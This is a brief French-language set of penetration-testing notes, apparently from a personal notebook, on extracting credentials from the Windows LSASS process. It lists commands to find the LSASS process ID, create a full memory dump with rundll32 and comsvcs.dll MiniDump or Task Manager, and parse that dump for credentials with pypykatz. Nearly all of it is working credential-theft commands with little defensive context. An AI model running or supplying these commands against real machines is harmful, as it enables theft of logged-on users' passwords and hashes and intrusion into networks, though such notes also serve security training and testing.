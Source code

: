 LSASS, le processus, contient les creds des sessions en cours.

## Extraire la mémoire
### Gestionnaire de tâches
![[taskmanagerdump.png]]
Un fichier ```lsass.DMP``` est créé dans ```C:\Users\loggedonusersdirectory\AppData\Local\Temp```

### Rundll32.exe & Comsvcs.dll
AV reconnaissent cette méthode comme malicieuse
Doit identifier PID de lsass.exe
```powershell
tasklist /svc
Get-Process lsass
```
Créer un dump de lsass
```powershell
#powershell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
## Extraire les creds
## pypykatz
```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```